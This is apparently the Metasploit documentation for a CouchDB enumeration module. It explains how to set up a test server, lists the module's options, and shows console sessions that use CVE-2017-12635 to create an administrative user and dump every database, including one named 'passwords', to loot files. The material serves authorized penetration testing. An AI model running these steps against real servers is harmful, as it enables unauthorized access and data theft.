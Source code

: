 ## Vulnerable Application

Apache CouchDB is a nosql database server which communicates over HTTP.  This module will enumerate the server and databases hosted on it.

The following was done on Ubuntu 16.04, and is largely base on [1and1.com](https://www.1and1.com/cloud-community/learn/database/couchdb/install-and-use-couchdb-on-ubuntu-1604/):
  
  1. `sudo apt install software-properties-common`
  2. `sudo add-apt-repository ppa:couchdb/stable`
  3. `sudo apt update`
  4. `sudo apt install couchdb`
  5. Reconfigure couchdb to listen to all interfaces. Edit `/etc/couchdb/local.ini`. Under `[httpd]` add the following line: `bind_address = 0.0.0.0`
  6. Restart the service: `sudo service couchdb restart`

## Verification Steps

  1. Install and configure couchdb
  2. Start msfconsole
  3. Do: `auxiliary/scanner/couchdb/couchdb_enum`
  4. Do: `run`

## Options

  **serverinfo**

  If set to true, the server info will also enumerated and set in msf's DB.  Defaults to `false`

  **createuser**

  If set to true, the server info will attempt to create an account in CouchDB using configured credentials (limited to CVE-2017-12635 conditions). Defaults to `false`

## Scenarios

  A run against the configuration from these docs

  ```
  msf5 auxiliary(scanner/afp/afp_login) > use auxiliary/scanner/couchdb/couchdb_enum 
  msf5 auxiliary(scanner/couchdb/couchdb_enum) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf5 auxiliary(scanner/couchdb/couchdb_enum) > set verbose true
  verbose => true
  msf5 auxiliary(scanner/couchdb/couchdb_enum) > run
  
  [+] 1.1.1.1:5984 {
    "couchdb": "Welcome",
    "uuid": "6f08e89795bd845efc6c2bf3d57799e5",
    "version": "1.6.1",
    "vendor": {
      "version": "16.04",
      "name": "Ubuntu"
    }
  }
  [*] #{peer} Enumerating Databases...
  [+] 1.1.1.1:5984 Databases:
  
  [
    "_replicator",
    "_users"
  ]
  
  [+] 1.1.1.1:5984 File saved in: /root/.msf4/loot/20180721105522_default_1.1.1.1_couchdb.enum_888970.bin
  
  msf5 auxiliary(scanner/couchdb/couchdb_enum) > services
  Services
  ========
  
  host           port  proto  name     state  info
  ----           ----  -----  ----     -----  ----
  1.1.1.1  5984  tcp    couchdb  open   HTTP/1.1 200 OK
  Server: CouchDB/1.6.1 (Erlang OTP/18)
  Date: Sat, 21 Jul 2018 14:54:45 GMT
  Content-Type: text/plain; charset=utf-8
  Content-Length: 127
  Cache-Control: must-revalidate
  
  {"couchdb":"Welcome","uuid":"6f08e89795bd845efc6c2bf3d57799e5","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}

  Standard versus with credential creation
  ========================================
  msf > use auxiliary/scanner/couchdb/couchdb_enum
  msf auxiliary(scanner/couchdb/couchdb_enum) > set rhost localhost
  rhost => localhost
  msf auxiliary(scanner/couchdb/couchdb_enum) > exploit

  [*] localhost:5984 Enumerating Databases...
  [+] localhost:5984 Databases:

  [
    "_global_changes",
    "_metadata",
    "_replicator",
    "_users",
    "passwords",
    "simpsons"
  ]

  [+] localhost:5984 File saved in: /root/.msf4/loot/20180915211454_default_1_couchdb.enum_214468.bin
  [-] Error retrieving database. Consider providing credentials.
  [*] Auxiliary module execution completed

  msf auxiliary(scanner/couchdb/couchdb_enum) > set createuser true
  createuser => true
  msf auxiliary(scanner/couchdb/couchdb_enum) > exploit

  [+] Found CouchDB version 2.0.0
  [+] User mlmUdhNZzDlI created with password password. Connect to http://localhost:5984/_utils/ to login.
  [*] localhost:5984 Enumerating Databases...
  [+] localhost:5984 Databases:

  [
    "_global_changes",
    "_metadata",
    "_replicator",
    "_users",
    "passwords",
    "simpsons"
  ]

  [+] localhost:5984 File saved in: /root/.msf4/loot/20180915194926_default_1_couchdb.enum_131803.bin
  [+] localhost:5984 _global_changes saved in: /root/.msf4/loot/20180915194926_default_1_couchdb._global__824779.bin
  [+] localhost:5984 _metadata saved in: /root/.msf4/loot/20180915194926_default_1_couchdb._metadat_584893.bin
  [+] localhost:5984 _replicator saved in: /root/.msf4/loot/20180915194926_default_1_couchdb._replica_443706.bin
  [+] localhost:5984 _users saved in: /root/.msf4/loot/20180915194926_default_1_couchdb._users_870736.bin
  [+] localhost:5984 passwords saved in: /root/.msf4/loot/20180915194926_default_1_couchdb.password_458174.bin
  [+] localhost:5984 simpsons saved in: /root/.msf4/loot/20180915194926_default_1_couchdb.simpsons_842642.bin
  [*] Auxiliary module execution completed

  msf auxiliary(scanner/couchdb/couchdb_enum) > set httpusername mlmUdhNZzDlI
  httpusername => mlmUdhNZzDlI
  msf auxiliary(scanner/couchdb/couchdb_enum) > set httppassword password
  httppassword => password
  msf auxiliary(scanner/couchdb/couchdb_enum) > show options

  Module options (auxiliary/scanner/couchdb/couchdb_enum):

     Name          Current Setting  Required  Description
     ----          ---------------  --------  -----------
     CREATEUSER    true             yes       Create Administrative user - 
     HttpPassword  password         yes       CouchDB Password
     HttpUsername  mlmUdhNZzDlI     yes       CouchDB Username
     Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOST         localhost        yes       CouchDB Host
     ROLES         _admin           yes       CouchDB Roles
     RPORT         5984             yes       CouchDB Port
     SERVERINFO    false            yes       Print server info
     SSL           false            no        Negotiate SSL/TLS for outgoing connections
     TARGETURI     /_all_dbs        yes       Path to list all the databases
     VHOST                          no        HTTP server virtual host

  msf auxiliary(scanner/couchdb/couchdb_enum) > set createuser false
  createuser => false
  msf auxiliary(scanner/couchdb/couchdb_enum) > exploit

  [*] localhost:5984 Enumerating Databases...
  [+] localhost:5984 Databases:

  [
    "_global_changes",
    "_metadata",
    "_replicator",
    "_users",
    "passwords",
    "simpsons"
  ]

  [+] localhost:5984 File saved in: /root/.msf4/loot/20180915211215_default_1_couchdb.enum_460766.bin
  [+] localhost:5984 _global_changes saved in: /root/.msf4/loot/20180915211215_default_1_couchdb._global__821328.bin
  [+] localhost:5984 _metadata saved in: /root/.msf4/loot/20180915211215_default_1_couchdb._metadat_410831.bin
  [+] localhost:5984 _replicator saved in: /root/.msf4/loot/20180915211215_default_1_couchdb._replica_599375.bin
  [+] localhost:5984 _users saved in: /root/.msf4/loot/20180915211216_default_1_couchdb._users_827774.bin
  [+] localhost:5984 passwords saved in: /root/.msf4/loot/20180915211216_default_1_couchdb.password_361950.bin
  [+] localhost:5984 simpsons saved in: /root/.msf4/loot/20180915211217_default_1_couchdb.simpsons_138031.bin
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/couchdb/couchdb_enum) > 

  ```
